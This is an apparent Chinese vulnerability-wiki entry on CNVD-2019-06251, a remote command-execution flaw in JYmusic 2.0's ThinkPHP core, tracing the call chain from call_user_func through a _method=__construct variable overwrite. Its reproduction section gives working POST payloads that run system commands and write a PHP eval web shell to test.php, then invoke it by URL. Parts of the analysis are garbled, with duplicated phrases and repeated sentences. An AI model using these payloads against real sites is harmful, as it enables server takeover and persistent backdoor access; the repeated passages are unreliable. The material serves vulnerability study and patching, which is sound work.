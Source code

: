 （CNVD-2019-06251）JYmusic 2.0 命令执行漏洞
===========================================

一、漏洞简介
------------

CNVD-2019-06251

二、漏洞影响
------------

三、复现过程
------------

### 漏洞分析

#### 危险函数

/core/library/think/Request.php类中的filterValue函数中，使用了call\_user\_func函数。

![](/Users/aresx/Documents/VulWiki/.resource/JYmusic2.0命令执行漏洞/media/rId26.png)

通过构造使得\$filter=system， \$value=dir
，通过call\_user\_func函数即可执行系统命令" dir "。

#### array\_walk\_recursive函数

/core/library/think/Request.php类中的input函数里调用了通过array\_walk\_recursive函数调用了filterValue函数。array\_walk\_recursive()
函数对数组中的每个元素应用用户自定义函数。

![](/Users/aresx/Documents/VulWiki/.resource/JYmusic2.0命令执行漏洞/media/rId28.png)

![](/Users/aresx/Documents/VulWiki/.resource/JYmusic2.0命令执行漏洞/media/rId29.jpg)

#### input函数

/core/library/think/Request.php中的param函数调用了input函数。

![](/Users/aresx/Documents/VulWiki/.resource/JYmusic2.0命令执行漏洞/media/rId31.jpg)

![](/Users/aresx/Documents/VulWiki/.resource/JYmusic2.0命令执行漏洞/media/rId32.jpg)

#### exec 函数

/core/library/think/App.php类中的exec
函数通过Request::instance()-\>param()调用了param函数。

![](/Users/aresx/Documents/VulWiki/.resource/JYmusic2.0命令执行漏洞/media/rId34.jpg)

#### run函数

/core/library/think/App.php类中的run函数则调用了exec函数

![](/Users/aresx/Documents/VulWiki/.resource/JYmusic2.0命令执行漏洞/media/rId36.jpg)

传入的dispatch和dispatch和dispatch和config两个参数分别来自于/core/library/think/App.php类中run函数里的：

![](/Users/aresx/Documents/VulWiki/.resource/JYmusic2.0命令执行漏洞/media/rId37.jpg)

![](/Users/aresx/Documents/VulWiki/.resource/JYmusic2.0命令执行漏洞/media/rId38.jpg)

#### 变量覆盖

/core/library/think/App.php类中run函数里，获取dispatch变量值时调用了routeCheck函数。routeCheck函数中则通过Route::chekc调用了check函数。/core/library/think/Route.php类中，check函数通过dispatch变量值时调用了routeCheck函数。routeCheck函数中则通过Route::chekc调用了check函数。/core/library/think/Route.php类中，check函数通过dispatch变量值时调用了routeCheck函数。routeCheck函数中则通过Route::chekc调用了check函数。/core/library/think/Route.php类中，check函数通过request-\>method()调用了method函数。

/core/library/think/Request.php类中，通过post参数\_method=\_\_construct调用构造函数：

![](/Users/aresx/Documents/VulWiki/.resource/JYmusic2.0命令执行漏洞/media/rId40.png)

在构造函数里用filter=system覆盖类中的filter变量。

![](/Users/aresx/Documents/VulWiki/.resource/JYmusic2.0命令执行漏洞/media/rId41.png)

post参数 method=GET
就是要再次调用method函数，并且使得if(true===\$method)为真，从而获取
\_SERVER\[REQUEST\_METHOD\]=dir 这个参数值。

![](/Users/aresx/Documents/VulWiki/.resource/JYmusic2.0命令执行漏洞/media/rId42.jpg)

#### 调用入口

/core/library/think/App.php类中的run函数，则是在index.php入口函数中调用。

### 漏洞复现

#### 拦截首页请求，Change request method修改请求方式为POST

#### 参数：

![](/Users/aresx/Documents/VulWiki/.resource/JYmusic2.0命令执行漏洞/media/rId47.png)

POST的参数的作用已在漏洞分析环节分析。
filter=system&\_SERVER\[REQUEST\_METHOD\]=dir&\_method=\_\_construct&method=GET
POST参数后不能有\\r\\n回车换行，如果有就不能成功执行。 POST /captcha
HTTP/1.1 //请求一个验证码，引导程序的运行步骤。

#### 写入shell

![](/Users/aresx/Documents/VulWiki/.resource/JYmusic2.0命令执行漏洞/media/rId49.png)

    filter=system&_SERVER[REQUEST_METHOD]=echo “<?php @eval($_GET["test"]) ?>” >test.php&_method=__construct&method=GET

#### phpinfo()

![](/Users/aresx/Documents/VulWiki/.resource/JYmusic2.0命令执行漏洞/media/rId51.png)

    http://0-sec.org/test.php?test=phpinfo(); 

    //末尾一定要跟一个“分号” “ ; ” ，如果没有则不能成功执行。

四、参考链接
------------

> <https://blog.csdn.net/yun2diao/article/details/91345116>

